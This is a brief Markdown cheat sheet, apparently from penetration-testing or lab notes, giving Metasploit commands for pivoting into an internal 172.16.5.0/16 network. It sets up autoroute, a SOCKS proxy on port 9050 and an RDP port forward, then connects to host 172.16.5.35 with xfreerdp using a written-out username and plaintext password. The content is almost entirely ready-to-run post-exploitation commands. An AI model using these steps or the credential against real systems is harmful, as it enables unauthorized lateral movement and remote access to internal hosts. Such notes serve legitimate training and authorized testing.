 ### Routing & Pivoting
```bash
# Autoroute
run autoroute -s 172.16.5.0/16
run autoroute -p

# SOCKS Proxy
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set VERSION 4a
run

# Port Forward
portfwd add -l 13389 -p 3389 -r 172.16.5.35
portfwd list
```

### Target Connection
```bash
# Via SOCKS
proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:'Plain Human work!'

# Via Port Forward
xfreerdp /v:127.0.0.1:13389 /u:mlefay /p:'Plain Human work!'
``` 